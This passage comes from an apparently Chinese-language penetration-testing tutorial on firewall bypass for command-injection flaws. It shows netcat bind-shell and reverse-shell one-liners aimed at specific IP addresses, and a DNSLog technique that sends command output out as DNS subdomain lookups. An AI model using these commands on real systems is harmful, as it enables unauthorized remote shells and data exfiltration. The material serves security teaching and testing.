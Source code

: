 假设防火墙出站策略限制5566端口，那么采取正向连接方式，则目标主机先将自己的cmd绑定至本地5566端口

```cmd
ping 127.0.0.1 | nc -e cmd -lvvp 5566
```

然后使用控制端连接该服务

```cmd
ncat -e cmd 47.122.23.131 5566
```

###### 若目标主机防火墙若开启入站策略(检查入站流量)，则采用反向连接

假设防火墙入站策略限制5566端口，那么采取反向连接方式，则目标主机先将自己的cmd反弹交给控制端

```cmd
ping 127.0.0.1 | nc -e cmd 47.94.236.117 5566
```

然后控制端监听自己的5566端口

```cmd
ncat -lvvp 5566
```

**一般地，防火墙入站策略较为严格，出站策略较为宽松，因此反弹shell很常用**

Windows的防火墙配置在这里

![image-20250920164707521](https://img.yatjay.top/md/20250920164707589.png)

### 实际案例2：防火墙组合数据不回显-ICMP带外查询Dnslog

若存在命令注入漏洞，但是命令不回显，除了可以使用上述的反弹shell操作外，还可以使用**带外查询**，如DNSLog，在线DNSLog平台可以搜到

DNSLog回显的核心原理是：**利用DNS协议，将漏洞点携带的敏感信息作为子域名发出查询请求，最终被外部的DNS日志记录平台捕获并显示。** 测试者通过查看该平台的日志记录，即可间接获取到漏洞执行的结果或证明漏洞存在。DNS在解析的时候会留下日志，我们将信息放在高级域名中，传递到自己这里，然后通过读日志获取信息。(笔者注：DNS解析的过程是递归或迭代，最终会找到我们提前配置好的DNS主机)

比如，我们在DNSLog平台https://dig.pm/获取到一个可供自己使用的子域名`c02539d19c.ddns.1433.eu.org.`

当在本地ping该子域名时，该平台就会得到一条记录；当在该子域名前添加内容再ping时，记录也显示了我们添加的内容，如下图所示。因此借助这一特性，可以将命令执行结果外带至DNSLog平台

![image-20250920173321521](https://img.yatjay.top/md/20250920173321576.png)

#### Linux主机：利用反引号特性将命令结果外带

对于Linux主机，由于反引号在执行命令时的特性(即**先执行反引号中的语句，再把结果加入到原命令中**)，可以将命令结果外带。如在一个Linux主机执行下面命令

```bash
ping `whoami`.5d8f10b7b9.ddns.bypass.eu.org.
```

得到DNSLog记录中可以看到whami的执行结果为root

![image-20250920174356822](https://img.yatjay.top/md/20250920174356871.png)

#### Windows主机，使用powershell脚本+变量赋值将结果外带

对于Windows主机，就无法使用反引号了，而需要使用**powershell脚本+变量赋值**的形式来执行，比如
